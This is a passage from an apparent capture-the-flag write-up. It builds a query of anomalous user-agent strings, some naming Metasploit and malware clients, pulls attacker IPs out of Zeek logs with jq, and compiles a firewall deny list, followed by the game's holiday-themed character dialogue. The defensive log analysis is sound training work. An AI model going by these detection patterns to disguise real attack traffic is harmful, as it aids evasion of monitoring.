"Mozilla/5.0 (Windows NT 5.1 ; v.)"
"Mozilla/5.0 (Windows NT 6.1; WOW62; rv:53.0) Gecko/20100101 Chrome /53.0"
"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13"
"Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2.3) gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30731"
"Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)"
"Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)"
"Mozilla/5.0 WinInet"
"Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)"
"Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)"
"Opera/8.81 (Windows-NT 6.1; U; en)"
"RookIE/1.0"
"Wget/1.9+cvs-stable (Red Hat modified)"
"Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19"
"Mozilla/5.0 (Linux; Android 4.4; Nexus 5 Build/_BuildID_) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36"
"Mozilla/5.0 (Linux; Android 5.1.1; Nexus 5 Build/LMY48B; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.65 Mobile Safari/537.36"
"Mozilla/5.0 (Linux; U; Android 4.1.1; en-gb; Build/KLP) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30"
"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/600.7.12 (KHTML, like Gecko) Version/8.0.7 Safari/600.7.12"
"Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1"
"Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/603.1.23 (KHTML, like Gecko) Version/10.0 Mobile/14E5239e Safari/602.1"
----
+
.New query
[options="nowrap"]
----
user_agent.keyword("Mozilla/5.0 (Macintosh; U; PPC Mac OS X; fr) AppleWebKit/412.6 (KHTML, like Gecko) Safari/412.2" OR "Mozilla/4.0 (compatible;MSIe 7.0;Windows NT 5.1)" OR "CholTBAgent" OR "HttpBrowser/1.0" OR "Mozilla/4.0 (compatibl; MSIE 7.0; Windows NT 6.0; Trident/4.0; SIMBAR={7DB0F6DE-8DE7-4841-9084-28FA914B0F2E}; SLCC1; .N" OR "Mozilla/4.0 (compatible MSIE 5.0;Windows_98)" OR "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 500.0)" OR "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NETS CLR  1.1.4322)" OR "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; FunWebProducts; .NET CLR 1.1.4322; .NET CLR 2.0.50727)" OR "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT5.1)" OR "Mozilla/4.0 (compatible; MSIE 6.1; Windows NT6.0)" OR "Mozilla/4.0 (compatible; MSIE 6.a; Windows NTS)" OR "Mozilla/4.0 (compatible; MSIE 7.0; Windos NT 6.0)" OR "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; AntivirXP08; .NET CLR 1.1.4322)" OR "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tridents/4.0)" OR "Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1)" OR "Mozilla/4.0 (compatible; MSIE 8.0; Windows MT 6.1; Trident/4.0; .NET CLR 1.1.4322; )" OR "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Tridents/4.0; .NET CLR 1.1.4322; PeoplePal 7.0; .NET CLR 2.0.50727)" OR "Mozilla/4.0 (compatible; MSIE 8.0; Windows_NT 5.1; Trident/4.0)" OR "Mozilla/4.0 (compatible; MSIE6.0; Windows NT 5.1)" OR "Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1)" OR "Mozilla/4.0 (compatible; Metasploit RSPEC)" OR "Mozilla/4.0 (compatible;MSIE 7.0;Windows NT 6." OR "Mozilla/4.0(compatible; MSIE 666.0; Windows NT 5.1" OR "Mozilla/5.0 (Windows NT 10.0;Win64;x64)" OR "Mozilla/5.0 (Windows NT 5.1 ; v.)" OR "Mozilla/5.0 (Windows NT 6.1; WOW62; rv:53.0) Gecko/20100101 Chrome /53.0" OR "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US) ApleWebKit/525.13 (KHTML, like Gecko) chrome/4.0.221.6 safari/525.13" OR "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2.3) gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30731" OR "Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)" OR "Mozilla/5.0 (compatible; MSIE 10.0; W1ndow NT 6.1; Trident/6.0)" OR "Mozilla/5.0 WinInet" OR "Mozilla/5.0 Windows; U; Windows NT5.1; en-US; rv:1.9.2.3) Gecko/20100401 Firefox/3.6.1 (.NET CLR 3.5.30729)" OR "Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0)" OR "Opera/8.81 (Windows-NT 6.1; U; en)" OR "RookIE/1.0" OR "Wget/1.9+cvs-stable (Red Hat modified)" OR "Mozilla/5.0 (Linux; Android 4.0.4; Galaxy Nexus Build/IMM76B) AppleWebKit/535.19 (KHTML, like Gecko) Chrome/18.0.1025.133 Mobile Safari/535.19" OR "Mozilla/5.0 (Linux; Android 4.4; Nexus 5 Build/_BuildID_) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/30.0.0.0 Mobile Safari/537.36" OR "Mozilla/5.0 (Linux; Android 5.1.1; Nexus 5 Build/LMY48B; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.65 Mobile Safari/537.36" OR "Mozilla/5.0 (Linux; U; Android 4.1.1; en-gb; Build/KLP) AppleWebKit/534.30 (KHTML, like Gecko) Version/4.0 Safari/534.30" OR "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_4) AppleWebKit/600.7.12 (KHTML, like Gecko) Version/8.0.7 Safari/600.7.12" OR "Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/602.1.50 (KHTML, like Gecko) CriOS/56.0.2924.75 Mobile/14E5239e Safari/602.1" OR "Mozilla/5.0 (iPhone; CPU iPhone OS 10_3 like Mac OS X) AppleWebKit/603.1.23 (KHTML, like Gecko) Version/10.0 Mobile/14E5239e Safari/602.1")
----
+
***** `90` hits for this search + the `15` ips from the user-agents list = `105` results!
***** Save response to disk
***** Extract IPs
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-12.Wdg]$ cat ips-bad-partial.json | jq -r '.hits.hits[]._source."id.orig_h"' | tee ips-bad-partial.txt | wc -l
90
----
+
. Create final list of ips to submit
+
[source, bash, options="nowrap"]
----
[/tmp/ctf-12.Wdg]$ echo "$(cat ips-bad-partial.txt ips-uas.txt | sort -u | tr '\n' ',' | sed -re 's|,$||')"
0.216.249.31,10.122.158.57,10.155.246.29,102.143.16.184,103.235.93.133,104.179.109.113,106.132.195.153,10.61.51.10,106.93.213.219,111.81.145.191,116.116.98.205,118.196.230.170,118.26.57.38,121.7.186.163,123.127.233.97,126.102.12.53,129.121.121.48,131.186.145.73,13.39.153.254,135.203.243.43,135.32.99.116,140.60.154.239,142.128.135.10,148.146.134.52,150.45.133.97,158.171.84.209,162.234.176.133,168.66.108.62,173.37.160.150,179.88.120.25,180.246.147.152,185.19.7.133,186.28.46.179,187.152.203.243,187.178.169.123,190.245.228.38,19.235.69.221,200.75.228.240,203.68.29.5,208.14.190.102,217.132.156.225,220.132.33.81,2.230.60.70,223.149.180.133,22.34.153.164,2.240.116.254,225.191.220.138,226.102.56.13,226.240.188.154,227.110.45.126,229.133.163.235,229.229.189.246,230.246.50.221,231.179.108.238,23.49.177.78,238.143.78.114,238.36.255.223,249.237.77.152,249.34.9.16,249.90.116.138,250.22.86.40,252.122.243.212,253.182.102.55,253.65.40.39,27.88.56.114,28.169.41.122,29.0.183.220,31.116.232.143,3.1.192.132,31.254.228.4,34.129.179.28,34.155.174.167,37.216.249.50,42.103.246.130,42.103.246.250,42.127.244.30,42.16.149.112,42.191.112.181,44.164.136.41,44.74.106.131,45.239.232.245,48.66.193.176,49.161.8.58,50.154.111.0,53.160.218.44,53.55.225.83,56.5.47.137,61.110.82.125,65.153.114.120,66.116.147.181,68.115.251.76,69.221.145.150,75.73.228.192,80.244.147.207,81.14.204.154,83.0.8.119,84.147.231.129,87.195.80.126,9.206.212.33,92.213.148.0,95.166.116.45,97.220.93.190
----
+
. Create the DENY rules
+
image::main/12/23-ban.png[]

image::main/12/24-win.png[]

==== Chat

.Chat log
----
(The Tooth Fairy - PRE)
- I’m the Tooth Fairy, the mastermind behind the plot to destroy the holiday season.
- I hate how Santa is so beloved, but only works one day per year!
- He has all of the resources of the North Pole and the elves to help him too.
- I run a solo operation, toiling year-round collecting deciduous bicuspids and more from children.
- But I get nowhere near the gratitude that Santa gets. He needs to share his holiday resources with the rest of us!
- But, although you found me, you haven’t foiled my plot!
- Santa’s sleigh will NOT be able to find its way.
- I will get my revenge and respect!
- I want my own holiday, National Tooth Fairy Day, to be the most popular holiday on the calendar!!!

(Wunorse Openslae - PRE)
- Wunorse Openslae here, just looking at some Zeek logs.
- I'm pretty sure one of these connections is a malicious C2 channel...
- Do you think you could take a look?
- I hear a lot of C2 channels have very long connection times.
- Please use jq to find the longest connection in this data set.
- We have to kick out any and all grinchy activity!

(Wunorse Openslae - PRE)
- That's got to be the one - thanks!
- Hey, you know what? We've got a crisis here.
- You see, Santa's flight route is planned by a complex set of machine learning algorithms which use available weather data.
- All the weather stations are reporting severe weather to Santa's Sleigh. I think someone might be forging intentionally false weather data!
- I'm so flummoxed I can't even remember how to login!
- Hmm... Maybe the Zeek http.log could help us.
- I worry about LFI, XSS, and SQLi in the Zeek log - oh my!
- And I'd be shocked if there weren't some shell stuff in there too.
- I'll bet if you pick through, you can find some naughty data from naughty hosts and block it in the firewall.
- If you find a log entry that definitely looks bad, try pivoting off other unusual attributes in that entry to find more bad IPs.
- The sleigh's machine learning device (SRF) needs most of the malicious IPs blocked in order to calculate a good route.
- Try not to block many legitimate weather station IPs as that could also cause route calculation failure.
- Remember, when looking at JSON data, jq is the tool for you!

(Krampus - PRE)
But there’s still time! Solve the final challenge in your badge by blocking the bad IPs at srf.elfu.org and save the holiday season!

(Krampus - POST)
- Congratulations on a job well done!
- Oh, by the way, I won the Frido Sleigh contest.
- I got 31.8% of the prizes, though I'll have to figure that out.

(Santa - POST)
- You did it! Thank you! You uncovered the sinister plot to destroy the holiday season!
- Through your diligent efforts, we’ve brought the Tooth Fairy to justice and saved the holidays!
- Ho Ho Ho!
- The more I laugh, the more I fill with glee.
- And the more the glee,
- The more I'm a merrier me!
- Merry Christmas and Happy Holidays.


(The Tooth Fairy - POST)
- You foiled my dastardly plan! I’m ruined!
- And I would have gotten away with it too, if it weren't for you meddling kids!
----
